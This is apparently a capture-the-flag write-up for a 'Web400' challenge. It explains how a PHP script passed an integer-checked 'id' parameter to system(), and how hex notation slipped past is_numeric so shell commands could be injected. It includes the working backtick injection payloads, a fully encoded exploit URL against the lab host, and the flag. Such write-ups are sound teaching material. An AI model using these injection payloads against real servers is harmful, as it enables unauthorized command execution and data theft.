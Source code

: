 # Web400 Challenge

So basically the main goal of this challenge was to pwn the server and get the flag..

We were presented by this website:

![alt Web400 Index] (https://i.imgur.com/E1WTkaA.png)

Nothing special at first glance, however if we look closely we can see that the images are loaded from another page.
The url was http://10.13.37.5/?id=1&usr=1 and immediately tried some SQL Injection tricks, but I got this error:

![alt Web400 Int Error] (https://i.imgur.com/yCv6sJ6.png)

This was strange, can I bypass this check? or there is another way to win this?

After some tries I noticed that if I change the 'id' parameter for example to '2' (non existing id) I get a corrupted image as an output. I downloaded the image and opend it with an hex editor and strangely I saw this error "cat: images/2_6.jpg: No such file or directory".

As you can see the php script tried to read the image, however it used 'system' function to do that, also you can see that my controled input 'id' I changed appears in the error. This is great, I can control the input that goes straight to the 'system' function!

Hm.. but wait, isn't the id input is filtered to allow only integer inputs? There are two ways they might have used to check this:

1. Regex Check
2. is_numeric function

#### Here comes the php magic :)

The 'is_numeric' function documentation:

> Finds whether the given variable is numeric. Numeric strings consist of optional sign, any number of digits, optional decimal part and optional exponential part. Thus +0123.45e6 is a valid numeric value. Hexadecimal (e.g. 0xf4c3b00c), Binary (e.g. 0b10100111001), Octal (e.g. 0777) notation is not allowed.

The hexadecimal notation looked interesting, and I tired this input: http://10.13.37.5/?id=0x61626364&usr=1. The error message I got was: "cat images/abcd_6.jpg: No such file or directory", So this worked!

After some fixes I managed to run arbitrary commands on the server with this method:

```bash
$(`uname -a > /tmp/tmp123.tmp`) || cat /tmp/tmp123.tmp || echo 
```

#### The fun part! where is the flag?
The web server was apache and the linux disto was ubuntu, so the default web root path must be: "/var/www/html", I tried to list the files there and the website was right there!

My final command:

```bash
$(`cat 6e8218531e0580b6754b3e3be5252873.txt > /tmp/tmp123.tmp`) || cat /tmp/tmp123.tmp || echo 
```

URL: http://10.13.37.5/?id=0x2428606361742036653832313835333165303538306236373534623365336265353235323837332e747874203e202f746d702f746d703132332e746d706029207c7c20636174202f746d702f746d703132332e746d70207c7c206563686f20&usr=1

Flag: DCTF{19b1f9f19688da85ec52a735c8da0dd3}
